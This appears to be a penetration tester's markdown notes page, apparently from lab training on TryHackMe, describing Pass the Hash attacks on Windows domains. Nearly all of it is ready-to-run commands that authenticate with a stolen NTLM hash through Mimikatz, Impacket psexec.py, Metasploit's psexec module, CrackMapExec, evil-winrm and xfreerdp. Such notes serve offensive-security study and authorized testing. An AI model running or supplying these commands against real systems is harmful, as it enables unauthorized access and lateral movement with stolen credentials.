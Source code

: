 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#cme #mimikatz #msf #evil-winrm #xfreerdp 
# Pass The Hash
- As [NetNTLM](NetNTLM.md) is inherently flawed, the password hash can be treated as a password.
- NTLM hash can be used to directly authenticate to a domain/service
- [Mimikatz](../../Cheatsheet/Mimikatz.md) for extracting Credentials
### Mimikatz
```powershell
sekurlsa::pth /user:user.name /domain:za.tryhackme.com /ntlm:<hash> /run:<command>
```
### Impacket's PsExec.py
```bash
python psexec.py -hashes <hash> domain/username@<server/ip>
```
### Metasploit PsExec module
```
exploit/windows/smb/psexec
```
### Crackmapexec
```bash
crackmapexec smb <server/IP> -u username -H <hash>
```
### evil-winrm
```bash
evil-winrm -i <server/IP> -u <username> -H <hash>
```
### xfreerdp
```bash
xfreerdp /v:<server/IP> /u:<domain\username> /pth:<hash> 
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
